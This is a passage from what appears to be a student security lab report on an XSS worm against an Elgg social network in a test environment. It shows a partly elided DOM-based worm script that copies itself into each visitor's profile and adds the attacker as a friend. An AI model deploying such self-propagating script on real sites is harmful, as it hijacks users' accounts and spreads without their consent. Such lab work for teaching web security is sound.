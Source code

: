As the image below shows, the code worked well. We logged in as Boby and then accessed Samy's profile. After that, Boby's "**About Me**" was replaced by the code, and he also added Samy as a friend. 

<img style="width:100%" src="https://codimd.s3.shivering-isles.com/demo/uploads/upload_dec1ac7be0e5d7bd7808252fec128381.png"/>


(PS. we ensured that Samy is not friend of Boby before starting the task)

### 6.2 DOM Approach

In there, we reused most codes in the last section. The code section shows the changes we made. There are two: the first is the surrounded `<script>` tag with id, "worm", and the second is about the function `infectToProfile`.  Specifically, we changed the value of the `description`, in which we replaced the previous URL-importing to the actual codes. And we also used the `encodeURIComponent` function to convert it to URL encoding. 

```HTML
<script id=worm>
function infectToProfile(){
    ...    
    let description = encodeURIComponent(
        '<script id=worm>'
        + document.getElementById("worm").innerHTML
        + '</' + 'script>'
    ); 
    ...
}
function addSamyAsFriend () {
    ...
}
window.onload = function () {
    // Make sure it will not changed Samy's profile
    // And ensure Samy will not add himself as friend 
    if(elgg.session.user.guid!=47){ 
        infectToProfile()
        addSamyAsFriend()
    }
}
</script>
```

We put the codes directly into Samy's "**About Me**", and redid the steps in last section. The image below shows it also worked well when Boby accesses Samy's profile.

<img style="width:100%" src="https://codimd.s3.shivering-isles.com/demo/uploads/upload_431b17316feb0b38f97265a518e4e48a.png"/>

<div style="page-break-after: always;"></div>

## TASK07: Countermeasures

### 7.1 Preparation

In the task, we prepared two victim: Boby and Alice. The attacker is Samy. Charlie's account was unattacked before starting the task.
